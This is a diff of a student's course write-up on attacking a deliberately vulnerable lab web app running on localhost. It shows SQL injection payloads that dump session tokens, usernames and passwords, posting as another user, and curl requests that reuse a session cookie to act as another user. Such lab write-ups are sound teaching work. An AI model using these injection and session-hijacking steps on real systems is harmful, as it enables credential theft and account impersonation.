

Before and after one commit to MingoMango17/CMSC134-Writeups, a Markdown page: Machine_Problem_3/writeup.md, the part around one of its changes. Shown at 81% size. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
probs done with aCVE-2024-3

````diff
--- a/Machine_Problem_3/writeup.md
+++ b/Machine_Problem_3/writeup.md
@@ -337,7 +337,7 @@ To explain how this works, the original SQL query takes a valid input message an
 INSERT INTO posts (message, user) VALUES ('<script>alert(document.domain)</script>', 1);
 ```
 
-However, since we have replaced the `message` with SQL injection, the query would now look like this
+However, since we have replaced the `message` with injected SQL query, it would now look like this
 
 ```sql
 INSERT INTO posts (message, user) VALUES ('1', 1), ((SELECT GROUP_CONCAT(user || ':' || token, '<br>') FROM sessions), 1); -- ', 1);
@@ -347,3 +347,75 @@ This will first insert the message `1` into **user 1** and then insert the SQL q
 
 Similarly, this works for dumping the username and password.
 
+The scary thing about this vulnerability is that we can post a message on another user!
+This can be done by simply changing the user ID to another user (doesn't matter if it does not exist).
+
+```sql
+1', 69), ("I know you read 228922", 69) --
+```
+
+This will get inserted to the database on user 69.
+
+### Credential Bypass via SQL Injection on Session Token (aCVE-2024-3)
+
+Okay, bypassing the login page and then able to post a message on another user requires a bit more of an effort.
+*Why not just bypass the session token instead?*
+
+The web server is vulnerable to SQL injection, all of the SQL parameters are vulnerable to it.
+Thus with this context, let us try ***posting as another user without logging in!***
+
+Session tokens are important for user authentication.
+Usually, they are stored as a **cookie** to the web browser and it gets passed to an HTTP request method.
+
+Forging the session token might need a different tool or simply modify the cookie itself in the web browser.
+
+The web server uses `session_token` which is evident in the source code `request.cookies.get("session_token")`.
+
+Modifying the session token in the web browser is tad a bit annoying.
+I like to do it with `curl` instead (or use Burpsuite if you want to).
+
+A legitimate GET request with the session token looks like this using curl
+
+```bash
+curl -L 'http://0.0.0.0:5000/' -H "Cookie: session_token=e96713ffbc66b273d48f5bbbf56e297686d55a3c488c55c94d233a32cac8be65"
+```
+
+Assuming that the session token exists, this would return the home page of the user.
+
+> [!NOTE]
+> This actually exists in the database provided by the machine problem.
+
+```html
+<!DOCTYPE html>
+<html>
+  <head>
+    <title>Home</title>
+  </head>
+  <body>
+    <h2>Welcome, alice!</h2>
+    <a href="/logout">Logout</a>
+    <h3>Posts</h3>
+    <form method="post" action="/posts">
+      <input type="text" name="message">
+      <input type="submit" value="Post!">
+    </form>
+  </body>
+</html>
+```
+
+We can now make a POST request with similar method
+
+```bash
+curl 'http://0.0.0.0:5000/posts' -X POST -H "Cookie: session_token=e96713ffbc66b273d48f5bbbf56e297686d55a3c488c55c94d233a32cac8be65" --data-raw 'message=Breasts or Thighs? Which contains more meat? For a value meal.'
+```
+
+And running the GET request curl command once again will output
+
+```html
+...
+<ul>
+  <li>Breasts or Thighs? Which contains more meat? For a value meal.</li>
+</ul>
+...
+```
+
````
Also changed, not shown: other parts of Machine_Problem_3/writeup.md (+78 -4 lines).
